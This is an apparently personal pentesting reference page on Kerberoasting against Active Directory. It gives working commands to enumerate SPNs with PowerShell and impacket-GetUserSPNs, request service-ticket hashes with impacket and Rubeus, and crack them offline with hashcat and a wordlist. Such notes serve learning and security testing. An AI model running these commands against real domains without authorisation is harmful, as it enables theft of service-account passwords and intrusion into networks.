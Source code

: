 # Kerberoasting (TGS-REP roasting)

{% embed url="https://www.techcrafters.com/portal/en/kb/articles/how-to-list-all-spns-in-a-domain-using-powershell#2__Querying_SPNs" %}

{% embed url="https://www.ibm.com/think/topics/kerberoasting" %}

{% embed url="https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-adserviceaccount?view=windowsserver2025-ps" %}

### What is Kerberoasting?

Kerberoasting (also known as **TGS-REP roasting**) relies on the fact that a Ticket Granting Service (TGS) created for a service will be encrypted with a hash derived from the password of the associated service account. This allows an attacker to perform a dictionary attack to potentially crack the passwords of service accounts linked to services defined by the Service Principal Names (SPNs).

**TGS-REP** refers to the **Kerberos ticket-granting service (TGS) response** message, where the KDC validates the TGT, and if valid, responds with a service ticket (TGS) encrypted with the target service account's key.

### (1) Retrieve a list of SPNs in the network

1. `Get-ADServiceAccount` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADServiceAccount -Filter 'ServicePrincipalNames -like "*"' | Select-Object -ExpandProperty ServicePrincipalNames
```
{% endcode %}

2. Impacket-scripts: **GetUserSPNs**

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * By default, all domain users can read the `servicePrinicpalName` attribute (required by the script)
  * Thus, as long as a valid user account is provided, it will not affect the results of the script

### (2) Retrieve the TGS for the SPNs we have found

1. &#x20;`impacket-GetUserSPNs` with the `-request-user` flag

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET> -request-user <SERVICE_USER> 
```
{% endcode %}

* `-request-user:` Requests TGS for the SPN associated to the service user specified (just the username, no domain needed)

2. `Rubeus.exe`

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast /spn:<SPN> /ticket:<EXISTING_TGT> 
C:\> Rubeus.exe kerberoast /user:<USERNAME> /ticket:EXISTING_TGT 
```
{% endcode %}

* `/ticket:` Specifies the TGT to use when requesting the service tickets
* `/spn:` Roasts just the specified SPN
* `/user:` Roasts just the specified user

**Other useful flags**

a. `/outfile:FILE:` outputs roasted hashes to the specified file, one per line

b. `/simple:` roasted hashes will be output to the console, one per line

**Combined command**

Or, we can directly enumerate the SPNs and request for the associated TGS all in one command:

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast
```
{% endcode %}

### (3) Perform dictionary attack on the obtained TGS

```sh
$ hashcat -a 0 -m <hash_mode> <path_to_spn_hash> <wordlist>
# eg. 
$ echo xxx > spn.hash 
$ hashcat -a -m <hash_mode> spn.hash /usr/share/wordlist/rockyou.txt
```

* `-a`: Attack mode&#x20;
  * `-a 0`: Dictionary attack&#x20;
* `-m` : Hash mode&#x20;
  * `-m 13100`: either one of **13100, 19600, 19700** (depending on the encryption type of the hashes obtained)


